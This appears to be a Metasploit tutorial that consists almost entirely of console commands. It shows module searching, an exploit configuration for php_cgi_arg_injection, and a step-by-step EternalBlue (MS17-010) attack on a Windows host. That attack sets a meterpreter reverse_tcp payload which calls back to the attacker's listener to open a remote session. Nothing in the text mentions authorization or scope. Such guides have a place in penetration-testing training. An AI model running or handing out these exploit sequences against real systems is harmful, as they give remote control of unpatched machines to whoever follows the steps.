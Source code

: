 ### Basic Metasploit Console Operations
```bash
# Start msfconsole
msfconsole

# Basic commands
msf > help                    # Show all commands
msf > show payloads           # Show available payloads
msf > show exploits           # Show available exploits
msf > show auxiliary          # Show auxiliary modules
msf > show encoders           # Show encoder options

# Module search examples
msf > search windows smb      # Search for Windows SMB exploits
msf > search 2017             # Search by year or vulnerability name

# Working with modules
msf > use exploit/windows/smb/ms17_010_eternalblue
msf > show options            # Show required options for current module
```

### Exploit Configuration Example
```bash
# Configure an exploit module
msfconsole

# Select a module and set parameters
msf > use exploit/multi/http/php_cgi_arg_injection
msf > set TARGETURI /index.php
msf > set RHOSTS 192.168.1.50
msf > set LHOST 192.168.1.100

# Check current configuration
msf > show options

# Run the exploit (be careful!)
msf > exploit
```

## Practical Examples and Commands

### Example 1: SMB EternalBlue Exploit on Windows Target
```bash
# Start Metasploit console
msfconsole

# Use the EternalBlue exploit for Windows 7/2008 R2
msf > use exploit/windows/smb/ms17_010_eternalblue

# Configure the module
msf > set RHOSTS 192.168.1.50        # Target IP
msf > set LHOST 192.168.1.100       # Your local IP
msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Show options to verify configuration
msf > show options

# Run the exploit
msf > exploit -j                    # Run in background (job)

# If successful, you'll get a meterpreter session
```
